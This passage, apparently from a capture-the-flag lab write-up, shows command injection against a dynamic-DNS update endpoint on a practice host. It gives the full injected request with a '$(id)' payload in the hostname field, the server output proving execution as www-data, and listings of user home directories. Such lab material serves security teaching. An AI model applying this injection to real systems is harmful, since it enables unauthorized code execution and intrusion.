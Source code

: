 ```txt
"$(id);.dnsalias.htb
```

The request:

```http
GET /nic/update?hostname="$(id);.dnsalias.htb HTTP/1.1
Host: dyna.htb
Authorization: Basic ZHluYWRuczpzbmRhbnlk
User-Agent: curl/7.74.0
Accept: */*
Connection: close
```

The response indicates that the command is properly executed and output is returned.

```http
HTTP/1.1 200 OK
Date: Thu, 23 Sep 2021 21:42:03 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 121
Connection: close
Content-Type: text/html; charset=UTF-8

server 127.0.0.1
zone dnsalias.htb
update delete uid=33(www-data) gid=33(www-data) groups=33(www-data)
good 10.10.14.130
```

Execution is under the `www-data` user.

---

## Code Execution to User

Users:

```bash
$ ls -la /home
total 16
drwxr-xr-x 4 root root 4096 Mar 15 2021 .
drwxr-xr-x 18 root root 4096 May 25 14:52 ..
drwxr-xr-x 5 bindmgr bindmgr 4096 Mar 15 2021 bindmgr
drwxr-xr-x 3 dyna dyna 4096 Mar 18 2021 dyna
```

`bindmgr`'s home directory:

```bash
$ ls -la /home/bindmgr
total 36
drwxr-xr-x 5 bindmgr bindmgr 4096 Mar 15 2021 .
drwxr-xr-x 4 root root 4096 Mar 15 2021 ..
lrwxrwxrwx 1 bindmgr bindmgr 9 Mar 15 2021 .bash_history -> /dev/null
-rw-r--r-- 1 bindmgr bindmgr 220 Feb 25 2020 .bash_logout
-rw-r--r-- 1 bindmgr bindmgr 3771 Feb 25 2020 .bashrc
drwx------ 2 bindmgr bindmgr 4096 Mar 13 2021 .cache
-rw-r--r-- 1 bindmgr bindmgr 807 Feb 25 2020 .profile
drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13 2021 .ssh
drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13 2021 support-case-C62796521
-r-------- 1 bindmgr bindmgr 33 Sep 23 06:47 user.txt
```
